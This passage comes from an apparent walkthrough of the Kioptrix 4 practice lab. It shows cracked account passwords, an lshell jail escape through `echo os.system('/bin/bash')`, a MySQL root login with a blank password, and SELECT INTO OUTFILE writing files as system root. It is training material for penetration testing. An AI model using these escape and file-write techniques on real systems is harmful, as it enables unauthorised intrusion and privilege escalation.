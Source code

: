 The plaintext password for `robert` was `ADGAdsafdfwt4gadfga==`, and the plaintext password for `john` was `MyNameIsJohn`.

## Escaping Jail
Logged in to the `robert` and `john` accounts both present a low level, jailed shell. The only available commands were `cd`, `clear`, `echo`, `exit`, `help`, `ll`, `lpath` and `ls`.

Attempting to echo an environment variable returned an error message which suggested `lshell` may be in use:

```shell_session
robert:~$ echo $SHELL
*** forbidden path -> "/bin/kshell"
```

If `lshell` is being used, and you have access to the `echo` command, it can be escaped by running `echo os.system('/bin/bash')`; which is what I did to gain full shell access.

## SSH Access as Root
Now that I had a full shell, I looked at the contents of `/var/www/checklogin.php` for some MySQL credentials and found that the web application is using the `root` account with a blank password:

```php
$host="localhost"; // Host name
$username="root"; // Mysql username
$password=""; // Mysql password
$db_name="members"; // Database name
$tbl_name="members"; // Table name

// Connect to server and select databse.
mysql_connect("$host", "$username", "$password")or die("cannot connect");
mysql_select_db("$db_name")or die("cannot select DB");
```

A look at the current process list also revealed that MySQL itself is running as `root`:

```shell_session
robert@Kioptrix4:/var/www$ ps aux | grep mysql
root      4024  0.0  0.1   1772   528 ?        S    15:03   0:00 /bin/sh /usr/bin/mysqld_safe
root      4066  0.0  5.1 127176 26520 ?        Sl   15:03   0:02 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --user=root --pid-file=/var/run/mysqld/mysqld.pid --skip-
root      4068  0.0  0.1   1700   560 ?        S    15:03   0:00 logger -p daemon.err -t mysqld_safe -i -t mysqld
robert    4631  0.0  0.1   3004   752 pts/1    R+   16:39   0:00 grep mysql
```

If a MySQL user isn't setup with the appropriate permissions, it is possible to write the results of queries to a file, which can be used to write arbitrary files.

A quick test showed that the `root` user was able to output to files, and that the files were being written as the system `root` user too:

```shell_session
mysql> select 'test' into outfile '/tmp/test.txt';
Query OK, 1 row affected (0.00 sec)

***

robert@Kioptrix4:/var/www$ ls -l /tmp
total 4
-rw-rw-rw- 1 root root 5 2017-08-01 16:40 test.txt
robert@Kioptrix4:/var/www$ cat /tmp/test.txt
test
robert@Kioptrix4:/var/www$
```
